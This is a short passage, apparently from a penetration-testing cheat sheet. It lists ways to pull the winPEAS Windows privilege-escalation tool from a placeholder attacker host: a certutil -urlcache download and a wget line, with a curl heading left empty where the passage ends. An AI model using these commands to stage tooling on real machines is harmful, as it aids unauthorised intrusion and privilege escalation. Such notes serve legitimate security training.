 Certutil:
```cmd
certutil.exe -urlcache -f http://<ip>:<port>/winPEASx64.exe winPEASx64.exe
```

Wget:
```cmd
wget http://<ip>:<port>/winPEASx64.exe
```

curl